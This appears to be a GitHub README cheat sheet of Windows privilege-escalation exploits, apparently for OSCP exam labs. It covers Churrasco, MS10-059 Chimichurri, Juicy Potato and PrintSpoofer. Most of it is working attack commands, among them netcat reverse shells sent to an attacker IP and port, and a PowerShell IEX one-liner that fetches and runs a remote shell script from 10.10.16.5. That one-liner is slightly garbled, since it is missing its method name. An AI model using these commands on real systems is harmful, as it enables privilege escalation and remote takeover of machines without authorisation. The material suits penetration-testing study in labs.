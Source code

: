 # OSCP-TOOLS

# Windows Server 2003 old windows :

--> If SEImpersonate is Enabled use following exploit - https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
--> Upload nc binary and execute following command.

~ Command : .\churrasco.exe -d "nc.exe <attacker-ip> <attacker-port> -e cmd.exe"

# Windows Server 2008 R2 DataCenter :

--> If 6.1.7600 N/A Build 7600 version the use following exploit - https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe

# Microsoft Windows 7 Enterprise :

--> If 6.1.7600 N/A Build 7600 version the use following exploit - https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe

~ Command : exploit.exe <attacker-ip> <attacker-port>

# Juicy Potato attacks :

$_Affected_Windows_Verisons

    Windows_10_Enterprise
    Windows_10_Pro
    Windows_7_Enterprise
    Windows_8.1_Enterprise
    Windows_Server_2008_R2_Enterprise
    Windows_Server_2012_Datacenter

📌 Juicy Potato does not work for Windows Server 2019 and Windows 10 versions 1809 and higher. - https://github.com/ohpe/juicy-potato/releases

--> For CLSID - http://ohpe.it/juicy-potato/CLSID/

~ Command : juicypotato.exe -l 1337 -t * -p "C:\Windows\Tasks\nc.exe <IP> <port> -e cmd.exe"
TIP : If upper command doesn't work then try to do the following thing:
        1. Get ready with the nishang reverse shell script edit it with necessary data. Then create a bat file on any machine with IEX file downloader one-liner.--- echo powershell -c "IEX (new-object net.webclient).('http://10.10.16.5/shell.ps1')" > shell.bat ---
        2. Then host a python web server and download the .bat file in target machine. After downloading run it as follows-
        3. .\jp.exe -t * -l 1337 -p shell.bat (This will give shell as NT Authority\System) If this doesn't work then also change the CLSID using -c parameter.

# PrinSpoofer Exploit on SEImpersonate : 

--> If the host is Windows Server 2016, 2019 or Windows 10 use this exploit if it has SEImpersoante permission - https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe
